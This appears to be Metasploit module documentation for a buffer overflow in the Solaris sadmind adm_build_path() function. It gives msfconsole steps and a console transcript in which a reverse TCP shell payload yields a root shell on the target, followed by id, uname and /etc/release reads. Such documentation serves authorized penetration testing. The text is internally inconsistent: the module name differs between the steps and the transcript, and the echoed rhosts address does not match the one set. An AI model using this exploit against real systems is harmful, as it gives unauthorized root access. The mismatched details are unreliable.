 ## Vulnerable Application

This module exploits a buffer overflow vulnerability in `adm_build_path()`
function of Sun Solstice AdminSuite sadmind daemon.

The distributed system administration daemon (sadmind) is the daemon used by
Solstice AdminSuite applications to perform distributed system administration
operations.

The sadmind daemon is started automatically by the inetd daemon whenever a
request to invoke an operation is received. The sadmind daemon process
continues to run for 15 minutes after the last request is completed, unless a
different idle-time is specified with the -i command line option. The sadmind
daemon may be started independently from the command line, for example, at
system boot time. In this case, the -i option has no effect; sadmind continues
to run, even if there are no active requests.

This module has been successfully tested on:

* Solaris 9u2 12/02 (x86);
* Solaris 9u7 09/04 (x86);
* Solaris 9u8 09/05 (x86).


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/solaris/sunrpc/sadmind_adm_build_path`
1. Do: `set rhosts [rhost]`
1. Do: `exploit`
1. You should get a new session as the `root` user.


## Options


## Scenarios

### Solaris 9u2 12/02 s9x_u2wos_10 (x86)

```
msf6 > use exploit/solaris/sunrpc/sadmind_exec
msf6 exploit(solaris/sunrpc/sadmind_exec) > set rhosts 192.168.200.155
rhosts => 192.168.200.148
msf6 exploit(solaris/sunrpc/sadmind_exec) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(solaris/sunrpc/sadmind_exec) > run
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.155:111 - Creating nop block...
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08062030...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08069830...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08071030...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.155:32842) at 2025-04-21 08:18:47 -0400

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.9 Generic_112234-03 i86pc i386 i86pc
cat /etc/release
                         Solaris 9 12/02 s9x_u2wos_10 x86
           Copyright 2002 Sun Microsystems, Inc.  All Rights Reserved.
                        Use is subject to license terms.
                           Assembled 05 November 2002
```
